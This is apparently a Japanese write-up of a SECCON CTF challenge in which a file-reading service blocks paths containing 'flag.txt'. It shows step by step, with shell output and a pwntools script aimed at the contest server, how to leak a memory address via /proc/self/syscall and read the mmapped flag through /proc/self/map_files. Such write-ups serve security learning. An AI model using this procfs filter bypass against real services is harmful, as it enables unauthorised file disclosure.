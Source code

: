 # readme2023

## 概要

指定したパスに置かれたファイルの中身を返してくれます。
0x100 文字で打ち切られてしまいます。
パスは`flag.txt`という文字列を含んではいけません。

## 観察

### mmap

```python
f = open("./flag.txt", "r")
mm = mmap.mmap(f.fileno(), 0, prot=mmap.PROT_READ)
```

`flag.txt`の中身がメモリにマッピングされています。

### `/proc`

`/proc` 以下に起動中のプロセスに関する情報がまとまっています。
参考：<https://linuxjm.osdn.jp/html/LDP_man-pages/man5/proc.5.html>

ローカルでDockerコンテナの中に入って、使えそうな情報を探していきます。
`server.py` の `signal.alarm(60)` の行はコメントアウトしておくと楽です。

```bash
❯ docker-compose exec dist_readme /bin/bash

  # 対象のプロセスを発見
  ctf@138474203cdc:~$ cat /proc/10/cmdline
  pythonserver.py

  # flag.txt をマップしている場所を発見
  ctf@138474203cdc:~$ cat /proc/10/maps
  ...
  7fa6a1319000-7fa6a131a000 r--s 00000000 fd:01 2663913                    /home/ctf/flag.txt
  ...

  # /proc/[pid]/map_files から読める
  ctf@24ad3b6ebb57:~$ ls -l /proc/10/map_files/
  ...
  lr-------- 1 ctf ctf 64 Sep 18 03:43 7fa6a1319000-7fa6a131a000 -> /home/ctf/flag.txt
  ...

# map_filesを指定してFLAG獲得
❯ nc localhost 2023
path: /proc/self/map_files/7fa6a1319000-7fa6a131a000
b'FAKECON{******* FIND ME ON REMOTE SERVER *******}\n'
```

リモートでも同じようなことをすれば良さそうです。
ただし、0x100文字で打ち切られてしまうので、別の方法でアドレスを特定する必要があります。
`flag.txt` をマッピングしているアドレスとの相対距離が一定であるようなアドレスがあれば嬉しいです。
`/proc/self/syscall` の情報が役立ちました。

```bash
# flag.txt がマップされているアドレス周辺の情報を探す
ctf@24ad3b6ebb57:~$ cat /proc/10/syscall
0 0x0 0x55aef731dea0 0x2000 0x2 0x0 0x0 0x7ffdce52a8d8 0x7fa6a122f07d
```

## 解法

```python
from pwn import *

io = remote("readme-2023.seccon.games", "2023")

io.sendlineafter(b"path:", b"/proc/self/syscall")
base_addr = int(eval(io.recvline()).split()[-1], 16)

l = base_addr - 0x7FA6A122F07D + 0x7FA6A1319000
r = l + (0x7F2B6C580000 - 0x7F2B6C57F000)

io.sendlineafter(b"path:", f"/proc/self/map_files/{hex(l)[2:]}-{hex(r)[2:]}".encode())
io.interactive()
#  b'SECCON{y3t_4n0th3r_pr0cf5_tr1ck:)}\n'
```
